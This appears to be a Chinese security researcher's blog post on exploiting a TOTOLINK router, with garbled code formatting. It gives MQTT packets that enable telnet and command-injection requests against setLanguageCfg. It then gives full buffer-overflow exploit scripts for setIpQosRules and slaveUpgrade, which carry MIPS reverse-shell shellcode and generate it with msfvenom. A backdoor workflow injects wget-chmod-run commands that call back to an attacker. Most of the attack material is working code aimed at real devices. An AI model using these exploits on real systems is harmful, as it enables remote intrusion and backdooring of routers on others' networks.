1 2 3 4 5 6 7 8 9 10 from pwn import *io = remote("192.168.55.1" ,1883 ) msg1 = "\x10\x1a\x00\x04\x4d\x51\x54\x54\x04\x02\x00\x3c\x00\x0e\x4d\x51\x54\x54\x5f\x46\x58\x5f\x43\x6c\x69\x65\x6e\x74" msg2 = "\x30\x65\x00\x24\x74\x6f\x74\x6f\x6c\x69\x6e\x6b\x2f\x72\x6f\x75\x74\x65\x72\x2f\x73\x65\x74\x74\x69\x6e\x67\x2f\x73\x65\x74\x54\x65\x6c\x6e\x65\x74\x43\x66\x67\x7b\x0a\x09\x22\x74\x6f\x70\x69\x63\x75\x72\x6c\x22\x3a\x09\x22\x73\x65\x74\x74\x69\x6e\x67\x2f\x73\x65\x74\x54\x65\x6c\x6e\x65\x74\x43\x66\x67\x22\x2c\x0a\x09\x22\x74\x65\x6c\x6e\x65\x74\x5f\x65\x6e\x61\x62\x6c\x65\x64\x22\x3a\x09\x22\x31\x22\x0a\x7d" io.send(msg1) sleep(0.2 ) io.send(msg2)
Python MQTT 客户端对比
如何在 Python 中使用 MQTT
1 2 3 4 5 import paho.mqtt.client as mqttclient = mqtt.Client() client.connect("192.168.55.1" ,1883 ,60 ) client.publish('totolink/router/setting/setTelnetCfg' ,payload='{"topicurl":"setting/setTelnetCfg","telnet_enabled":"1"}' )
在lib/cste_modules/global.so中找到如下命令注入漏洞：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 int __fastcall setLanguageCfg (int a1, int a2, int a3) const char *v6; char v8[260 ]; memset (v8, 0 , 0x100 u); v6 = (const char *)websGetVar(a2, "langType" , "" ); apmib_set(6002 , v6); if ( !fork() ) { sleep(1u ); apmib_update_web(4 ); exit (1 ); } CsteSystem("rm -rf /var/js/language* 1>/dev/null 2>&1" , 0 ); sprintf (v8, "cp /web_cste/js/language_%s.js /var/js/language.js" , v6); CsteSystem(v8, 0 ); CsteSystem("ln -s /var/js/language.js /web_cste/js/language.js 1>/dev/null 2>&1" , 0 ); websSetCfgResponse(a1, a3, "0" , "reserv" ); return 0 ; }
有两种方式触发该漏洞：
通过80口的http服务
1 2 3 import requestsresponse = requests.post("http://192.168.55.1/cgi-bin/cstecgi.cgi" ,data='{"topicurl":"setting/setLanguageCfg","langType":";echo 123 > /tmp/xy.txt;"}' )
通过1883口的mqtt服务
1 2 3 4 5 import paho.mqtt.client as mqttclient = mqtt.Client() client.connect("192.168.55.1" ,1883 ,60 ) client.publish('totolink/router/setting/setLanguageCfg' ,payload='{"topicurl":"setting/setLanguageCfg","langType":";echo 123 > /tmp/tmp.txt;"}' )
以上两种方式，均可从如下三个方向进一步利用：
把ls等关键泄露信息，写入到通过80口可访问的文件中
只需将命令执行的结果重定向到/web_cste目录下的某个新建文件（如ls > /web_cste/ls.txt），然后在浏览器中通过https://192.168.55.1/ls.txt就可以查看ls命令的执行结果了。
反弹shell
未完成tag
开telnet
具有命令注入能力之后，开启telnet就很简单了，只不过需要注意一下&这个特殊字符。最后是通过#的注释功能打成功的。exp如下：
1 2 import requestsresponse = requests.post("http://192.168.55.1/cgi-bin/cstecgi.cgi" ,data='{"topicurl":"setting/setLanguageCfg","langType":";telnetd & #;"}' )
另外，telnetd的使用方法这里还有点迷，使用telnetd &可以在totolink路由器中将服务起起来，但是我自己的ubuntu虚拟机中却不行，暂时还没弄明白啥原因。记一个未完成tag。
找到的栈溢出点记录：
1 2 3 4 5 6 7 8 9 firewall.so - setIpPortFilterRules()函数 - 第72/73行 - v11 firewall.so - setMacFilterRules()函数 - 第87/88行 - v10 firewall.so - setUrlFilterRules()函数 - 第32/33行 - v9 firewall.so - setParentalRules()函数 - 第43/44行 - v9 firewall.so - setPortForwardRules()函数 - 第55行 - v13 firewall.so - setIpQosRules()函数 - 第34行 - v12 firewall.so - setMacQos()函数 - 第41/46行 - v12 global.so - setLanguageCfg()函数 - 第16行 - v6
我挑了其中的一个漏洞点进一步利用，如下。
漏洞代码片段如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 int __fastcall setIpQosRules (int a1, int a2, int a3) ...... char v14[23 ]; ...... v12 = (const char *)websGetVar(a2, "comment" , &byte_9268); ...... strcpy (v14, v12); apmib_set(131385 , v14); apmib_set(65848 , v14); apmib_update_web(4 ); system("sysconf firewall" ); websSetCfgResponse(a1, a3, "0" , "reserv" ); return 0 ; }
strcpy(v14,v12)拷贝时可能会导致v14溢出，该漏洞所在函数的功能简单，无漏洞利用限制条件，因此利用起来较为简单。
（1）通过80口进行攻击
通过80口发送利用脚本，并在mqtt.fx中订阅所有消息。但是加上shellcode的脚本总是无法到达mqtt服务节点，猜测是因为shellcode中有特殊字符，在途中被拦截了。所以考虑通过mqtt服务的1883口打。
（2）通过1883口进行攻击
从这个口发送是可以的。不过，还是遇到了以下两个坑：
\x00截断，4字节变成3字节（不能用p32构造），巧妙利用strcpy函数会在拷贝结束加\x00shellcode如果布置在test所在区间，由于shellcode中引号的存在，json解析时会把我们的shellcode截断，从而无法覆盖到函数返回地址。为了绕过这个限制，我们在花括号{} 后植入shellcode（虽然这段shellcode不会被当做json的一部分，但是该进程接收了这些字符，那么这一段shellcode就必然在进程内存中，只要某个时段这一内存区间未被覆盖，我们就能ret2shellcode）。字符串”bling”是方便我们进行shellcode定位用的，在某次调试中，定位到shellcode(buf)的起始地址为0x4143b4，因此有如下利用脚本。
exp如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 from pwn import *import paho.mqtt.client as mqttbuf = "\xfa\xff\x0f\x24\x27\x78\xe0\x01\xfd\xff\xe4\x21\xfd" buf += "\xff\xe5\x21\xff\xff\x06\x28\x57\x10\x02\x24\x0c\x01" buf += "\x01\x01\xff\xff\xa2\xaf\xff\xff\xa4\x8f\xfd\xff\x0f" buf += "\x34\x27\x78\xe0\x01\xe2\xff\xaf\xaf\x0d\x05\x0e\x3c" buf += "\x0d\x05\xce\x35\xe4\xff\xae\xaf\x37\x05\x0e\x3c\xc0" buf += "\xa8\xce\x35\xe6\xff\xae\xaf\xe2\xff\xa5\x27\xef\xff" buf += "\x0c\x24\x27\x30\x80\x01\x4a\x10\x02\x24\x0c\x01\x01" buf += "\x01\xfd\xff\x11\x24\x27\x88\x20\x02\xff\xff\xa4\x8f" buf += "\x21\x28\x20\x02\xdf\x0f\x02\x24\x0c\x01\x01\x01\xff" buf += "\xff\x10\x24\xff\xff\x31\x22\xfa\xff\x30\x16\xff\xff" buf += "\x06\x28\x62\x69\x0f\x3c\x2f\x2f\xef\x35\xec\xff\xaf" buf += "\xaf\x73\x68\x0e\x3c\x6e\x2f\xce\x35\xf0\xff\xae\xaf" buf += "\xf4\xff\xa0\xaf\xec\xff\xa4\x27\xf8\xff\xa4\xaf\xfc" buf += "\xff\xa0\xaf\xf8\xff\xa5\x27\xab\x0f\x02\x24\x0c\x01" buf += "\x01\x01" test = "a" *218 client = mqtt.Client() client.connect("192.168.55.1" ,1883 ,60 ) client.publish('totolink/router/setting/setIpQosRules' ,payload='{"topicurl":"setting/setIpQosRules","comment":"xx' +test+'\xb4\x43\x41"}' +'bling' +buf)
ps. 使用kali生成shellcode的方法如下，需要指定攻击机的 ip和port：
1 msfvenom -p linux/mipsle/shell_reverse_tcp LHOST=192.168.55.5 LPORT=2333 -f py -o mipsel919.txt
ps. 执行攻击脚本前，需要在攻击机上监听一个端口，用来接收反弹的shell：
漏洞代码片段如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 int __fastcall slaveUpgrade (int a1, int a2, int a3) ...... char v13[128 ]; char v14[64 ]; ...... if ( getValFromTmp("slaveUpgradeflag" ) != 1 ) { v7 = (const char *)websGetVar(a2, "url" , "" ); strcat (v14, v7); ...... } ...... return 0 ; }
strcat(v14, v7)将v7的内容跟v14连接后，会导致v14溢出。根据前文“filewall.so库中setIpQosRules函数”小节中的利用方法，这个洞的调试和利用跟它很相似。
这次，我们尝试用一个脚本做两件事（不需要额外开个窗口执行nc -l 2333），完整exp如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 from pwn import *import paho.mqtt.client as mqttimport threadingbuf = "\xfa\xff\x0f\x24\x27\x78\xe0\x01\xfd\xff\xe4\x21\xfd" buf += "\xff\xe5\x21\xff\xff\x06\x28\x57\x10\x02\x24\x0c\x01" buf += "\x01\x01\xff\xff\xa2\xaf\xff\xff\xa4\x8f\xfd\xff\x0f" buf += "\x34\x27\x78\xe0\x01\xe2\xff\xaf\xaf\x09\x1d\x0e\x3c" buf += "\x09\x1d\xce\x35\xe4\xff\xae\xaf\x37\x03\x0e\x3c\xc0" buf += "\xa8\xce\x35\xe6\xff\xae\xaf\xe2\xff\xa5\x27\xef\xff" buf += "\x0c\x24\x27\x30\x80\x01\x4a\x10\x02\x24\x0c\x01\x01" buf += "\x01\xfd\xff\x11\x24\x27\x88\x20\x02\xff\xff\xa4\x8f" buf += "\x21\x28\x20\x02\xdf\x0f\x02\x24\x0c\x01\x01\x01\xff" buf += "\xff\x10\x24\xff\xff\x31\x22\xfa\xff\x30\x16\xff\xff" buf += "\x06\x28\x62\x69\x0f\x3c\x2f\x2f\xef\x35\xec\xff\xaf" buf += "\xaf\x73\x68\x0e\x3c\x6e\x2f\xce\x35\xf0\xff\xae\xaf" buf += "\xf4\xff\xa0\xaf\xec\xff\xa4\x27\xf8\xff\xa4\xaf\xfc" buf += "\xff\xa0\xaf\xf8\xff\xa5\x27\xab\x0f\x02\x24\x0c\x01" buf += "\x01\x01" payload1 = "a" *84 payload1 += "\x28\x43\x41" def local_listen (): l = listen(2333 ) l.wait_for_connection() l.interactive() def send_payload (): client = mqtt.Client() client.connect("192.168.55.1" ,1883 ,60 ) client.publish('totolink/router/setting/slaveUpgrade' ,payload='{"topicurl":"setting/slaveUpgrade","url":"' +payload1+'"}' +'blingha' +buf) t1 = threading.Thread(target=local_listen) t2 = threading.Thread(target=send_payload) t1.start() t2.start()
为了拿到目标系统的shell，有时候需要往目标系统中植入后门，让其将shell返回到我们本地系统中。
有两种情况，一种是利用命令注入漏洞，另一种是通过内存漏洞控制执行流。
分四步：
生成backdoor
使用metasploit中的msfvenom生成一个目标系统架构的backdoor文件，功能是反连shell
1 2 3 4 5 6 7 8 9 10 11 12 13 14 ┌──(bling㉿kali)-[~] └─$ msfvenom --list payloads | grep mipsle linux/mipsle/exec A very small shellcode for executing commands. This module is sometimes helpful for testing purposes as well as on targets with extremely limited buffer space. linux/mipsle/meterpreter/reverse_tcp Inject the mettle server payload (staged). Connect back to the attacker linux/mipsle/meterpreter_reverse_http Run the Meterpreter / Mettle server payload (stageless) linux/mipsle/meterpreter_reverse_https Run the Meterpreter / Mettle server payload (stageless) linux/mipsle/meterpreter_reverse_tcp Run the Meterpreter / Mettle server payload (stageless) linux/mipsle/reboot A very small shellcode for rebooting the system. This payload is sometimes helpful for testing purposes. linux/mipsle/shell/reverse_tcp Spawn a command shell (staged). Connect back to the attacker linux/mipsle/shell_bind_tcp Listen for a connection and spawn a command shell linux/mipsle/shell_reverse_tcp Connect back to attacker and spawn a command shell ┌──(bling㉿kali)-[~] └─$ msfvenom -p linux/mipsle/shell_reverse_tcp LHOST=127.0.0.1 LPORT=2333 -f elf -o test-mipsel
本地起http服务
参考：Python SimpleHTTPServer
服务端执行：python -m SimpleHTTPServer，默认监听本地8000端口
客户端：wget http://ip:8000/xxx或直接访问http://ip:8000/
本地监听
使用 nc -l [port] 在本地监听一个端口，用于给backdoor连接
命令注入
往目标系统注入如下命令：;wget backdoor;chmod +x backdoor;./backdoor;
分三步：
生成shellcode
使用metasploit中的msfvenom生成一个shellcode，功能是反连shell
1 2 3 ┌──(bling㉿kali)-[~] └─$ msfvenom -p linux/mipsle/shell_reverse_tcp LHOST=127.0.0.1 LPORT=2333 -f py -o test-mipsel.txt
本地监听
使用 nc -l [port] 在本地监听一个端口，用于shellcode连接
ret2shellcode
构造利用脚本，触发内存漏洞，控制劫持流执行shellcode
gdbserver需要搭配gdb一起使用，gdbserver运行在待测系统内部，gdb运行在我们本地。
首先，我们需要让gdbserver跟待测进程建立联系，有两种方式：
第一种方法，使用gdbserver启动程序，并设置一个端口用于跟gdb建立连接
1 $ ./gdbserver :1234 /target/exec /
第二种方法，使用 —attach 选项附加到某个已启动进程，附加上去后程序会断在当前运行指令处
1 $ ./gdbserver :1234 --attach [pid]
然后，让gdb跟gdbserver建立连接，这里需要根据待测进程的架构选择gdb或gdb-multiarch，有两种情况：
第一种情况，x86或x86_64架构使用gdb
1 2 3 4 5 6 7 8 $ gdb ...... gef > target remote [ip]:[port] $ gdb -q /target/exec ...... gef > target remote [ip]:[port]
第二种情况，arm/mips等其他架构使用gdb-multiarch
1 2 3 4 5 6 7 8 9 10 11 $ gdb-multiarch ...... gef > set architecture [arm/mips/...] gef > set endian little gef > target remote [ip]:[port] $ gdb-multiarch -q /target/exec -x xxx.cfg ...... gef >
1 2 3 4 5 mount -o loop /fakefolder /realfoler umount /realfolder mount -o bind /fakefile /realfile umount /realfile
shellcode变成elf的二种方式：
用pwntools中make_elf（较简单）
写一个main函数，用交叉编译编成不同平台的二进制（较麻烦）
调试cstecgi.cgi时可能会面临这个问题
…
…